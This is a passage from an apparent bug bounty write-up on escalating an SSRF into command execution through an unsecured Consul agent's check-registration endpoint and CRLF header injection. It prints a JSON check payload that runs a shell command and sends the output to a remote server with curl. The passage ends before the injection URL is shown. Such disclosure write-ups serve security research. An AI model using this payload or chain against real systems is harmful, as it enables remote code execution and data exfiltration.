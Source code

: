 1.  External documents were able be fetched from HTTP / HTTPS sources.
2.  Requests sent from the service were SOAP, and were submitted to the user provided URL via HTTP POST.
3.  XML External Entities were disabled on the XML parser.
4.  There was a local Hashicorp Consul agent on the machine (potentially).
5.  Response data was never returned to the user on HTTP 2XX, only on HTTP 4XX.
6.  HTTP 3XX messages were unhandled, and redirections were not followed.
7.  No data was returned on HTTP 2XX responses.
8.  The agent fetching remote URLs was written in Ruby based on the `user-agent`.

Given that I had previously encountered Hashicorp Consul agents in other bounty programs, I turned to the Consul manual to see whether there were any endpoints that may assist in escalating this vulnerability into something less lame.

!["This lost a LOT in the translation"](/assets/article_images/2017/manual.png)

Luckily, after a bit of searching I found a reference in the Consul documentation which made mention of an endpoint at `/v1/agent/check/register`; allowing for registration of a ‘check command’ (arbitrary shell command) via an HTTP PUT request. Although the Consul agent does allow for ACLs to be applied to these endpoints to limit use, this is **not enabled by default** so I thought it was worth a try.

In order to test this I fired up a local VM and installed the Consul agent in order to construct a valid payload and test on a default installation. After a short while, I had the following payload constructed which would execute a shell command and pipe the output to a remote server using an HTTP POST every 60 seconds:

```
{
    "id": "DarkarniumTest",
    "name": "DarkarniumTest",
    "script": "/bin/uname -a | /usr/bin/curl -k -XPOST -d @- https://some-server",
    "interval": "60s",
    "timeout": "5s"
}
```

Ignoring the fact that I was unable to specify a payload in the target web application, I also found that the Consul check registration endpoint endpoint would **NOT** respond to an HTTP POST, only an HTTP PUT.

### So, PUT from a POST?

The final piece of the puzzle to solve was how to construct an HTTP PUT with a specific JSON body (the check payload above) from a script which was hardcoded to perform HTTP POST with a non user controllable payload. Thinking back to potential caveats with URL parsing, I remembered encountering issues in the past with Ruby and Python HTTP libraries not properly handling `\r\n` (Carriage-Return, Line-Feed) characters in URLs and HTTP headers. The result of this was usually that a user could inject arbitrary HTTP headers or payloads into predefined HTTP requests by tampering with the URL in the right way.

To test whether this was able to be used in this case, I constructed an URL which, if handled incorrectly by the library, should add a `Connection: Keep-Alive` HTTP header to the request and tack on a subsequent HTTP PUT operation after the ‘hardcoded’ HTTP POST. This initial test URL looked something like the following:
